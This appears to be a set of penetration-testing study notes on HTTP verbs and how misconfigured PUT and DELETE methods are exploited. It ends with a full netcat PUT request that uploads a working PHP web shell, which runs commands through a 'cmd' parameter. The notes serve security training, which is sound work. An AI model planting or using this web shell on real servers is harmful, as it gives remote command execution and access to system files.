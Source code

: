 # HTTP Verbs

## HTTP Verbs

### **GET**

* Used to request a resource.

```
GET /page.php HTTP/1.1
Host: www.example.site
```

* Can pass arguments. To pass "course=PTS" to page.php, the request will be:

```
GET /page.php?course=PTS HTTP/1.1
Host: www.example.site
```

### **POST**

* Used to submit HTML form data
* Parameters must be in the **message body**

```
POST /login.php HTTP/1.1
Host: www.example.site

username=john&password=mypass
```

### **HEAD**

* Asks just headers of the response instead of the response body

```
HEAD / HTTP/1.1
Host: www.example.site
```

### **PUT**

* Used to **upload** a file to the server
* very dangerous if it is allowed and misconfigured

```
PUT /path/to/destination HTTP/1.1
Host: www.example.site

<PUT data>
```

### **DELETE**

* Used to remove a file from the server
* must be configured wisely as a misused DELETE leads to DOS and data loss

```
DELETE /path/to/destination HTTP/1.1
Host: www.example.site
```

### **OPTIONS**

* Used to query the web server for enabled HTTP Verbs

```
OPTIONS / HTTP/1.1
Host: www.example.site
```

#### Rest APIs

* Represenbtational State Transfer Applicatoin Programming INterface
* Specific type of web app that reslies strongly on almosdt all HTTP verbs
* Common for these apps to use "PUT" for saving data/creating new content and not for saving files
* During a pentest, confirm impact of "PUT/DELETE" method twice before reporting it found
  * After issuing a PUT request, try to look for the existence of the file you created

## Using HTTP 1.0 Syntax

* Using HTTP 1.1 implies also sending a `Host:` header in the request.
* If you use HTTP 1.0, you can skip it

## Exploiting Misconfigured HTTP Verbs

### Enumeration with OPTIONS

* enumerate available methods or verbs

![](<../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

### Exploiting DELETE

![](<../../../../.gitbook/assets/image (21) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![Logging in becomes impossible for every user](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)

### Exploiting PUT

* you have to know the size of the file you want to upload on the server

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

* You can then use the size you got to build the PUT message
  * Example: Upload a page displaying info about the PHP installation on a server

![](<../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png>)

### Uploading a PHP Shell with PUT

![](<../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png>)

* This can be used by passing our commands via the cmd GET parameter

![](<../../../../.gitbook/assets/image (20) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* The shell has the same permissions of the web server it runs on.
* For example, we can write a file

![](<../../../../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* We can also read it

![](<../../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1).png>)

* And we can even read a system file

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="warning" %}
Remember that PUT requires that we pass the content length. So we have to know the shell size
{% endhint %}

![](<../../../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* We can then build a valid PUT request

```bash
nc victim.site 80
PUT /payload.php HTTP/1.0
Content-type: text/html
Content-length: 136

<?php
if (isset($_GET['cmd']))
{
        $cmd = $_GET['cmd'];
        echo '<pre>';
        $result = shell_exec($cmd);
        echo $result;
        echo '</pre>';
}
?>
```
